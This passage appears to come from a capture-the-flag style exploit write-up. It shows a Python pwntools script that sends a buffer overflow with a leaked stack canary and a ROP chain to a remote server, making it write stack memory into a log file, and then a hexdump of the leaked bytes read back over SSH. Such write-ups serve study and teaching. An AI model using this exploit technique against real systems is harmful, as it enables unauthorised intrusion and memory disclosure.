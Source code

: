 By passing 4 as the first argument, we are guessing that file descriptor 4 is pointing at one of our log files into which we will write `0xff` bytes from the stack.  Here's what our code looks like:

```python
 payload1 = "Content-Length: 4096\r\n\r\n{}".format('\x00' * 0xf00).encode()
 payload2 = cyclic(264) + canary + (b'\x00' * 24)

 payload2 += p64(POP_RAX_RET)
 payload2 += p64(1)
 payload2 += p64(POP_RDI_RET)
 payload2 += p64(4)
 payload2 += p64(POP_RDX_RET)
 payload2 += p64(0xff)
 payload2 += p64(MOV_RBX_RSP_MOV_RSI_RBX_SYSCALL)

 p = remote(server, 8080)
 p.send(payload1)
 time.sleep(0.1)
 p.send(payload2)
 p.recvuntil(b"\r\n\r\n").decode()
 r = p.recvall()
 p.close()

 time.sleep(3)
 ssh_stdin, ssh_stdout, ssh_stderr = ssh.exec_command("hexdump -C {}".format(data_log))
 print(ssh_stdout.read().decode()[-4096:])
```

After the write call, we can use our SSH ability to hexdump the log files and manually examine the content.  Looking at `ps_data.log`, we get the following dump:

```bash
026590a0  00 00 00 00 00 00 00 00  00 00 00 00 61 61 61 61  |............aaaa|
026590b0  62 61 61 61 63 61 61 61  64 61 61 61 65 61 61 61  |baaacaaadaaaeaaa|
026590c0  66 61 61 61 67 61 61 61  68 61 61 61 69 61 61 61  |faaagaaahaaaiaaa|
026590d0  6a 61 61 61 6b 61 61 61  6c 61 61 61 6d 61 61 61  |jaaakaaalaaamaaa|
026590e0  6e 61 61 61 6f 61 61 61  70 61 61 61 71 61 61 61  |naaaoaaapaaaqaaa|
026590f0  72 61 61 61 73 61 61 61  74 61 61 61 75 61 61 61  |raaasaaataaauaaa|
02659100  76 61 61 61 77 61 61 61  78 61 61 61 79 61 61 61  |vaaawaaaxaaayaaa|
02659110  7a 61 61 62 62 61 61 62  63 61 61 62 64 61 61 62  |zaabbaabcaabdaab|
02659120  65 61 61 62 66 61 61 62  67 61 61 62 68 61 61 62  |eaabfaabgaabhaab|
02659130  69 61 61 62 6a 61 61 62  6b 61 61 62 6c 61 61 62  |iaabjaabkaablaab|
02659140  6d 61 61 62 6e 61 61 62  6f 61 61 62 70 61 61 62  |maabnaaboaabpaab|
02659150  71 61 61 62 72 61 61 62  73 61 61 62 74 61 61 62  |qaabraabsaabtaab|
02659160  75 61 61 62 76 61 61 62  77 61 61 62 78 61 61 62  |uaabvaabwaabxaab|
02659170  79 61 61 62 7a 61 61 63  62 61 61 63 63 61 61 63  |yaabzaacbaaccaac|
02659180  64 61 61 63 65 61 61 63  66 61 61 63 67 61 61 63  |daaceaacfaacgaac|
02659190  68 61 61 63 69 61 61 63  6a 61 61 63 6b 61 61 63  |haaciaacjaackaac|
026591a0  6c 61 61 63 6d 61 61 63  6e 61 61 63 6f 61 61 63  |laacmaacnaacoaac|
026591b0  70 61 61 63 00 26 7f 7f  0d f4 90 3e 00 00 00 00  |paac.&.....>....|
026591c0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
026591d0  00 00 00 00 7f d7 a1 b1  15 7f 00 00 01 00 00 00  |................|
026591e0  00 00 00 00 76 d8 a1 b1  15 7f 00 00 04 00 00 00  |....v...........|
026591f0  00 00 00 00 a2 1c a3 b1  15 7f 00 00 ff 00 00 00  |................|
02659200  00 00 00 00 fc 44 aa b1  15 7f 00 00 02 00 8c 66  |.....D.........f|
02659210  7f 00 00 01 00 00 00 00  00 00 00 00 a4 01 00 00  |................|
02659220  00 00 00 00 00 26 7f 7f  0d f4 90 3e 40 8e cf b1  |.....&.....>@...|
02659230  15 7f 00 00 b8 d3 a1 b1  15 7f 00 00 50 8d c1 78  |............P..x|
02659240  fd 7f 00 00 d4 ea a1 b1  15 7f 00 00 78 8e c1 78  |............x..x|
02659250  fd 7f 00 00 60 f8 a1 b1  01 00 00 00 00 00 00 00  |....`...........|
02659260  00 00 00 00 29 0d ad b1  15 7f 00 00 c0 f7 a1 b1  |....)...........|
02659270  15 7f 00 00 59 f0 a1 b1  15 7f 00 00 00 00 00 00  |....Y...........|
02659280  00 00 00 00 00 00 00 00  01 00 00 00 78 8e c1 78  |............x..x|
02659290  fd 7f 00 00 3e ea a1 b1  15 7f 00 00 00 00 00 00  |....>...........|
```
